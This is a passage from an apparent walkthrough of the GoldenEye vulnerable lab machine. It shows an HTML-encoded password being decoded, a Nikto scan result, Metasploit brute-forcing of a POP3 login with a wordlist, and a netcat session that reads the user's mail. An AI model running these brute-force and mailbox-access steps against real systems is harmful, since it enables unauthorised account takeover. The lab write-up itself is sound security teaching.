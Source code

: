 So we have a HTML encoded password which decodes to <code>InvincibleHack3r</code>. Now we can go to */sev-home* and log in as boris with this password.

{% img center /images/pentest/goldeneye/goldeneye.png 'goldeneye login' 'goldeneye login' %}

We can now make use of that POP3 service on port 55007. Boris' credentials didn't work though. I used Nikto to further look at the web server and got an interesting hit:

```
+ /splashAdmin.php: Cobalt Qube 3 admin is running. This may have multiple security problems as described by www.scan-associates.net. These could not be tested remotely.
```

Going to that page wasn't immediately useful though, but maybe some of the information could be used further:

{% img center /images/pentest/goldeneye/splashadmin.png 'splashadmin' 'splashadmin' %}

With nothing else to go from, I attempted to bruteforce the mail login credentials for boris with the Metasploit *scanner/pop3/pop3_login* module and the *fasttrack.txt* wordlist:

```
[+] 192.168.159.130:55007 - 192.168.159.130:55007 - Success: 'boris:secret1!' '+OK Logged in.  '
```

So now we have credentials for Boris' mail and I was able to read his mails:

```
nc 192.168.159.130 55007
+OK GoldenEye POP3 Electronic-Mail System
USER boris
+OK
PASS secret1!
+OK Logged in.
LIST
+OK 3 messages:
1 544
2 373
3 921
.
RETR 1
+OK 544 octets
Return-Path: <root@127.0.0.1.goldeneye>
X-Original-To: boris
Delivered-To: boris@ubuntu
Received: from ok (localhost [127.0.0.1])
	by ubuntu (Postfix) with SMTP id D9E47454B1
	for <boris>; Tue, 2 Apr 1990 19:22:14 -0700 (PDT)
Message-Id: <20180425022326.D9E47454B1@ubuntu>
Date: Tue, 2 Apr 1990 19:22:14 -0700 (PDT)
From: root@127.0.0.1.goldeneye

Boris, this is admin. You can electronically communicate to co-workers and students here. I'm not going to scan emails for security risks because I trust you and the other admins here.
.
RETR 2
+OK 373 octets
Return-Path: <natalya@ubuntu>
X-Original-To: boris
Delivered-To: boris@ubuntu
Received: from ok (localhost [127.0.0.1])
	by ubuntu (Postfix) with ESMTP id C3F2B454B1
	for <boris>; Tue, 21 Apr 1995 19:42:35 -0700 (PDT)
Message-Id: <20180425024249.C3F2B454B1@ubuntu>
Date: Tue, 21 Apr 1995 19:42:35 -0700 (PDT)
From: natalya@ubuntu

Boris, I can break your codes!
.
```